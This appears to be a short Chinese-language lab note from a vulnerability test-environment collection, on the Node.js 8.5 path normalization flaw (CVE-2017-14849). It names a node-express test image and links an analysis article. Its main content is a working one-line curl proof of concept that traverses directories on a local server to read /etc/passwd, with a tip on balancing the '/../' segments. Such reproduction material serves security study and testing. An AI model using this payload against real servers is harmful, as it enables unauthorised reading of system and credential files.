### nodejs 8.5 normalize 路径解析错误漏洞

测试镜像

* src/node-express/4.13.1/

参考文章

* [Node.js CVE-2017-14849 漏洞分析](https://security.tencent.com/index.php/blog/msg/121)

Poc - 保证两边的 `/../` 数量一样

```
curl 127.0.0.1/js/../../../../../../a/../../../../../../etc/passwd
```


